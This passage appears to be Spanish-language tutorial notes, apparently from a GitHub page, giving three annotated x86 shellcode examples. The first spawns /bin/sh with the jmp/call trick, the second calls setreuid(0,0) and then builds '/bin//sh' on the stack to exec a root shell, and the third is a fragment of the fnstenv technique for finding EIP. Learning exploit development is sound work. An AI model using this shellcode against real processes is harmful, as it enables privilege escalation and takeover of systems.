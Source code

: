EJ **TRUCO (/bin/sh)**:

```
jmp                 0x1f                                        ; Salto al último call
popl                %esi                                       ; Guardamos en ese la dirección al string
movl               %esi, 0x8(%esi)       ; Concatenar dos veces el string (en este caso /bin/sh)
xorl                 %eax, %eax             ; eax = NULL
movb  %eax, 0x7(%esi)     ; Ponemos un NULL al final del primer /bin/sh
movl               %eax, 0xc(%esi)      ; Ponemos un NULL al final del segundo /bin/sh
movl   $0xb, %eax               ; Syscall 11
movl               %esi, %ebx               ; arg1=“/bin/sh”
leal                 0x8(%esi), %ecx      ; arg[2] = {“/bin/sh”, “0”}
leal                 0xc(%esi), %edx      ; arg3 = NULL
int                    $0x80                         ; excve(“/bin/sh”, [“/bin/sh”, NULL], NULL)
xorl                 %ebx, %ebx             ; ebx = NULL
movl   %ebx, %eax            
inc                   %eax                          ; Syscall 1
int                    $0x80                         ; exit(0)
call                  -0x24                          ; Salto a la primera instrución
.string             \”/bin/sh\”                               ; String a usar<span id="mce_marker" data-mce-type="bookmark" data-mce-fragment="1">​</span>
```

**EJ usando el Stack(/bin/sh):**

```
section .text
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```

**EJ FNSTENV:**

```
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```
